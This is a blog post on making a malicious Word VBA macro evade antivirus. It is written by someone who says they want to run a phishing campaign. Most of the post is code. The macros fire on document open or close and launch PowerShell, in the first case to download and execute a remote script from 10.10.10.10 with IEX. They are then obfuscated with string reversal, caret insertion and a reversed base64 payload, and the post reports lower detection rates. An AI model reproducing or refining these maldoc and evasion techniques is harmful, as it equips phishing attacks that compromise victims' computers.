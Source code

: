 ```yaml
---
title: Bypass AV with VBA
date: "2021-11-04T22:40:32.169Z"
description: How my MalDoc bypassed AV.
---
```


So I wanted to start a phishing campaign and sadly every maldoc seems to fail bypassing AV for some reason

I've already taken the OSEP course so I do have some knowledge when it comes to AV bypass techniques


### What can I do now?

Well it was pretty confusing on how to approach this problem as whenever I used `Document_Open` or `AutoOpen` in my macro AV would detect it pretty easily.

### What is the problem?

Let's take this first example which is pretty simple and pretty familiar 

```vb
Sub MyMacro()
    cmd = "powershell.exe -nop -c ""IEX(iwr http://10.10.10.10/evil.ps1)"""
    Shell cmd
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
Well if we think about it what is happening is when a document is opened we call the function `MyMacro` which will trigger the execution of an in-memory powershell agent

I tried various obfuscation methods, that helped in reducing the total number of AV detections, but still the number was high for my taste

I finally figured out that the problem might not be with `MyMacro` but instead `AutoOpen` as I would expect any half decent AV (including Defender) would go after functions that are ran at the startup of a word document 

Well what can I do??

### Events

As explained here in the [Microsoft documentation](https://docs.microsoft.com/en-us/office/vba/word/concepts/customizing-word/auto-macros), We have more than one event to play around with!

AutoExec/AutoNew/AutoClose/AutoExit

Which are all not as heavily used as the infamous `AutoOpen`.

So let's try again with another event this time 

For the sake of making this pretty simple I'll just end up using `AutoClose` which will trigger whenever the document was closed instead.

### First Attempt 

I tried using the following snippet and tested it against antivirus solutions 

```vb
Sub MyMacro()
MsgBox "Evil stuff should happen now"
cmd = "cmd.exe /k powershell.exe -nop -enc [base64 blob of payload]"
Shell cmd
End Sub

Sub AutoClose()
MyMacro
End Sub
```

Sadly it got detected at a rate of `10/26`

![Image](https://i.imgur.com/UdJPOEJ.png)


### Second Attempt

Ok we got it now, let's use some basic obfuscation and see what happens 

I just tried to reverse a small part of the payload `cmd.exe` 

```vb
Sub MyMacro()
MsgBox "Evil stuff should happen now"
cmd = "exe.dmc"
cmd2 = " /k powershell.exe -nop -enc [base64 blob of payload]"
fcmd = StrReverse(cmd) & cmd2
Shell fcmd
End Sub

Sub AutoClose()
MyMacro
End Sub
```

Ok now we reduced the hit by a little but we still got a long way to go 

![Image](https://i.imgur.com/NxoRuDt.png)


### Third Attempt

Now I've seen this trick before being referenced to bypass EDR's and AV's when executing commands with `cmd.exe`

You would just need to add `^` between characters and it would resolve it as a null value and ignore it apparently ? Am not particularly sure on the reason but it seems to work!

So if we tried something like `net users` and `n^e^t use^er^s` both would result the same output but one is obfuscated while the other isn't (Must be ran within a command prompt)

So I adjusted my payload by a little bit and ended with something like this 

```vb
Sub MyMacro()
MsgBox "Evil stuff should happen now"
cmd = "exe.dmc"
cmd2 = " /k p^O^wE^R^S^h^E^l^L^.^e^X^e -^n^o^p -^e^n^c [base64 blob of payload]"
fcmd = StrReverse(cmd) & cmd2
Shell fcmd
End Sub

Sub AutoClose()
MyMacro
End Sub
```

And that seems to work in obfuscating some AV's too!

![Image](https://i.imgur.com/9n8T6eK.png)


### Final attempt

Now all we can do is just try obfuscating even more and more

So I decided to reverse the `base64 blob` and it would look something like this 

```vb
Sub MyMacro()
MsgBox "Evil stuff should happen now"
cmd = "exe.dmc"
cmd2 = " /k p^O^wE^R^S^h^E^l^L^.^e^X^e -^n^o^p -^e^n^c "
cmd3 = "[Reversed base64 blob of payload]"
fcmd = StrReverse(cmd) & cmd2 & StrReverse(cmd3)
Shell fcmd
End Sub

Sub AutoClose()
MyMacro
End Sub
```

And the final result was amazing! we only got `4/26` hits

![Image](https://i.imgur.com/i37qyB5.png)


### Conclusion

Try other event triggers, and try some easy obfuscation methods you never know what might work

Thank you for sticking around!